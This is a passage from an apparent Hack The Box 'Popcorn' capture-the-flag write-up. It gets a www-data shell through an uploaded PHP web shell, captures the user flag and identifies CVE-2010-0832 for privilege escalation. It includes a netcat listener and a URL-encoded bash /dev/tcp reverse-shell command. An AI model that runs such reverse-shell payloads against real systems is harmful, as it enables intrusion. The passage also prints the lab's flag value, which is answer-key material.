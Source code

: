 <img width="966" height="355" alt="image" src="https://github.com/user-attachments/assets/7e349d8f-8705-4cfc-9f0b-457c78d8523e" />


**Reverse Shell Execution:**
```bash
# Attacker Listener
nc -nlvp 9001

# Web Trigger
http://popcorn.htb/torrent/upload/920dcb9268b2e20fbe0f0bd9a4de82188ce28033.php?cmd=bash%20-c%20%27sh%20-i%20%3E%26%20/dev/tcp/10.10.16.21/9001%200%3E%261%27
```

<img width="882" height="353" alt="image" src="https://github.com/user-attachments/assets/3e60e58b-d2ca-4c9a-869c-112910f30545" />

<img width="1489" height="353" alt="image" src="https://github.com/user-attachments/assets/4a976867-7db8-40bf-8787-693c3f64ac6d" />



**Shell Obtained:**
- User: `www-data`
- Privileges: Web application context

<img width="792" height="365" alt="image" src="https://github.com/user-attachments/assets/92ab218f-b485-443e-bd7e-2dbf14524529" />


## Post-Exploitation

### User Flag Discovery
```bash
find . -type f -ls
cat user.txt
475e864a3771cf836c78fa1f6ab4b8f2
```

<img width="792" height="365" alt="image" src="https://github.com/user-attachments/assets/1e1fc24a-cfeb-401f-ad03-21f3bd6349b1" />


### Privilege Escalation

**Vulnerability Identification:**
- Observed MOTD (Message of the Day) configuration
- Identified PAM version 1.1.0 with known vulnerabilities

<img width="977" height="372" alt="image" src="https://github.com/user-attachments/assets/fef257ba-044f-4b1b-a161-43e341e2511f" />


**Exploit Research:**
- Searched for PAM 1.1.0 privilege escalation exploits

  <img width="977" height="372" alt="image" src="https://github.com/user-attachments/assets/e66ea6d7-9ed1-4276-bdab-87318310a18f" />

- Discovered CVE-2010-0832 (PAM MOTD local privilege escalation)

<img width="949" height="329" alt="image" src="https://github.com/user-attachments/assets/b7886be9-97e8-47a3-93b1-f503a2bf9e5e" />
